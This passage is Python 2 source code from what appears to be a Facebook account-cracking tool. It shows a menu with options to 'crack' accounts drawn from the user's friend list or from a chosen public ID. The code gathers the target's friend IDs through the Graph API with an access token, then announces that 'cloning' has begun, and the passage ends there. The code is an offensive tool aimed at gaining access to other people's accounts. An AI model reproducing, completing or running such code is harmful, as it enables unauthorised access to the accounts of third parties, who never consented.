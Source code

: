 		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	print "\033[1;97m✧ \033[1;97m1.\x1b[1;96mCrack From Friend List."
	print "\033[1;97m✧ \033[1;97m2.\x1b[1;95mCrack From Public ID."
	print "\033[1;97m✧ \033[1;97m0.\033[1;94mBack."
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;97mChoose Option ≻ \033[1;97m")
	if peak =="":
		print "\x1b[1;97mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "\033[1;93m Please Wait"
		jalan('\033[1;97m[✔] Getting IDs \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;97m≻\033[1;97mLink ID\033[1;37m: \033[1;97m")
		
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;97m[✔] Name\033[1;97m:\033[1;97m "+op["name"]
		except KeyError:
			print"\x1b[1;97mID Not Found!"
			raw_input("\n\033[1;97m[\033[1;97mBack\033[1;97m]")
			super()
		print"\033[1;97m[✔] Getting IDs..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
        
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;97mFill in correctly"
		pilih_super()
	
	print "\033[1;91m[✔] Total Friends \033[1;97m: \033[1;97m"+str(len(id))
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;93m[✔] Cloning Started\033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
        print"""
[!] To Stop Process Press CTRL Then Z
